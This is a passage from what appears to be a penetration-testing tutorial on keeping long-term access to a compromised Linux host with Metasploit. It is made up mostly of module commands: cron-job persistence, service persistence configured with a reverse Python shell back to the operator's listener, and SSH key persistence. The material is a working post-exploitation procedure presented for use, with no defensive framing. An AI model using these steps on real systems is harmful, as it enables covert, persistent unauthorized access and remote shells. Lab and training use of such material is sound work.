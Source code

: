 ### Persistence Modules

Next, we return to **Metasploit** and use built-in persistence modules to ensure long-term access.

Search for **Linux persistence** modules:

```bash
search platform:linux persistence
```

#### Setting Up a Cronjob

We can set up a cronjob that connects to our handler at regular intervals:

```bash
use exploit/linux/local/cron_persistence
show options
set session [ID]
exploit
```

If we encounter errors, check for conflicts with **LPORT** and **LHOST** settings.

#### Service Persistence

Alternatively, we can use **service persistence** to ensure our connection remains active after a reboot:

```bash
use exploit/linux/local/service_persistence
set session [ID]
set payload cmd/unix/reverse_python
set lport 4422
set lhost eth1
exploit
```

If needed, change the **target** and re-run:

```bash
set target 3
exploit
set target 4
exploit
```

### Recommended Technique: SSH Key Persistence

A recommended persistence method is using **SSH key persistence**:

```bash
use post/linux/manage/ssh_persistence
show options
set createsshfolder true
set session [ID]
exploit
```
